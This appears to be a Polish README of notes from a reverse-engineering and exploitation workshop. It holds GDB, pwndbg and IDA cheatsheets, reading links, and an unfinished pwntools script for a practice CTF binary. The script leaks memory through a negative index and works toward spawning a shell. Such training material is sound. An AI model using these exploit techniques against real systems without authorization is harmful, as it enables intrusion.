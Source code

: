 
Przerobione zadania:
* http://re.disconnect3d.pl/logmein - proste zadanie z RE, które wymaga tak naprawdę zrobienia XORa dwóch stringów
* http://re.disconnect3d.pl/easy - zadanie z PWN, nieskończone - **do dokończenia w domu** -- cel - uruchomienie shella (docelowo zadanie było hostowane na zdalnym serwerze) - tutaj warto jest [początkowo wyłaczyć ASLR](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)

Komendy GDB z skrótami/wyjaśnieniem:
* r - run
* c - continue
* ni - next instruction
* si - step instruction
* p - print - tu można podać rejestr np. `print $eax` albo użyć wyrażenia, czy też castu z C - `print *((int*)$eax+3)`
* i r - info registers 
* info frame - wyświetlanie informacji o ramce stosu
* info functions [name] - wyświetlanie listy funkcji (lub filtrowanie gdy podamy nazwę)
* b <funkcja/adres> - stawianie breakpointa, gdy podajemy adres, należy poprzedzić go znakiem *
* jmp <funkcja/adres> - skok do danej funkcji/adresu (zmienia RIP/EIP)
* x - "egzaminowanie" pamięci, wykorzystywane wraz z formatem - np. `x/16xw <adres>` wyświetli 16 elementów dwubajtowych (specyfikator `w` - niefortunnie `word` w gdb to cztery bajty) z podanego adresu zapisanych heksadecymalnie (x) 
* bt

Komendy pwndbg:
* vmmap - wyświetlanie mapy pamięci (korzysta z `cat /proc/<pid>/maps`)
* search - szukanie w pamięci

Losowe hinty do Ida Pro/Hopper:
* Typy wyświetlane czasem przez Idę: BYTE (1B), WORD (2B), DWORD (4B), QWORD (8B)
* Klawisz 'n' na symbolu - refaktoryzacja jego nazwy
* Klawisz 'x' na symbolu - szukanie xrefów
* Klawisz 'y' na symbolu - zmiana jego typu (dla zdekompilowanego kodu)

## Rzeczy do zrobienia/przeczytania przed kolejnymi warsztatami:
* Wykłady z http://re.disconnect3d.pl/
* http://blog.exploitlab.net/2011/12/tutorials-to-refresh-your-fundamental.html
* https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/
* Dokończenie zadania `easy`, które robiliśmy - w razie problemów, piszcie - poniżej kod, który napisaliśmy na warsztatach

```python
from pwn import *

p = process('./easy')
print p.proc.pid
pause()

print p.recvuntil('Choose: ')

def leak(index):
    p.sendline('3')
    p.recvuntil('view:')
    p.sendline(str(index))
    p.recvuntil('Product ID: ')
    
    leak_id = p.recvuntil(', Product Code: ')[:-16]
    leak_code = p.recvuntil('There are ').replace('There are ','')
    leak = leak_code + p32(int(leak_id) & 0xffffffff)
    
    print "[+]Leak: "+ leak.encode('hex')
    return leak

leak(-3)

def add_product(prod_id, prod_code):
    p.sendline('1') # add record
    print p.recvuntil('Enter product ID: ')
    p.sendline(prod_id)
    print p.recvuntil('Enter product code: ')
    p.sendline(prod_code)

for i in range(7):
    add_product(str(i), chr(ord('a')+i)*8)

add_product('XxXx', 'abcdqwer')
p.interactive()
```
